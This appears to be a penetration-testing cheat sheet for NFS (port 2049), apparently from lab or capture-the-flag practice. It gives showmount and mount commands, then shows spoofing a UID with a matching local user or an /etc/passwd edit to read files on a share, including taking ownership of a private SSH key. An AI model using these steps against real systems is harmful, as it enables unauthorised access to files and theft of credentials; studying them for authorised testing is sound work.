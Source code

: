 # NFS Port 2049

#### Enumeration

```bash
showmount $ip
showmount -e $ip
```

##### Mounting

```bash
sudo mount -o [options] -t nfs ip_address:share directory_to_mount
mkdir temp 
mount -t nfs -o vers=3 10.11.1.72:/home temp -o nolock
```

##### new user with new permissions

```bash
sudo groupadd -g 1014 <group name>
sudo groupadd -g 1014 1014
sudo useradd -u 1014 -g 1014 <user>
sudo useradd -u 1014 -g 1014 test
sudo passwd <user>
sudo passwd test
```

##### Changing permissions

The user cannot be logged in or active

```bash
sudo usermod -aG 1014 root
```

##### Changing owners

```bash
-rw------- 1 root root 3381 Sep 24  2020 id_rsa
```

```bash
sudo chown kali id_rsa
```

```bash
-rw------- 1 kali root 3381 Sep 24  2020 id_rsa
```


##### Hacktricks

```bash
#apt install nfs-common
showmount 10.10.10.180      ~or~showmount -e 10.10.10.180
should show you available shares (example /home)

mount -t nfs -o ver=2 10.10.10.180:/home /mnt/
cd /mnt
nano into /etc/passwd and change the uid (probably 1000 or 1001) to match the owner of the files if you are not able to get in

https://book.hacktricks.xyz/pentesting/nfs-service-pentesting
```